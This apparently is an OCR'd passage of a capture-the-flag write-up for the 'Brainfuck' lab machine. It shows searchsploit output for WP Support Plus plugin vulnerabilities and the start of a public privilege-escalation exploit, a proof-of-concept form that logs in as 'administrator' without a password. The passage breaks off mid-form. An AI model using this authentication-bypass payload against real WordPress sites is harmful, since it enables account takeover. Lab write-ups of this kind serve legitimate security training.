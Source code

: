```10.10.10.17 brainfuck.htb www.brainfuck.htb sup3rs3cr3t.brainfuck.htb ```
[+] Cached Requests: 5
[+] Data Sent: 43.166 KB
[+] Data Received: 203.026 KB
[+] Memory used: 265.082 MB
[+] Elapsed time: 00:00:13
```

WP Plugin Vulnerability

```bash
                                                                                                                                                                   
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ searchsploit WP support plus
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 2.0 - Multiple Vulnerabilities                                          | php/webapps/34589.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation                                            | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection                                                   | php/webapps/40939.txt
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
                                                                                                                                                                  
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ searchsploit -m 41006.txt   
  Exploit: WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41006
     Path: /usr/share/exploitdb/exploits/php/webapps/41006.txt
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/abhinav/41006.txt


                                                                                                                                                                    
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ cat 41006.txt                                         
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
# Date: 10-01-2017
# Software Link: https://wordpress.org/plugins/wp-support-plus-responsive-ticket-system/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: web

1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
```
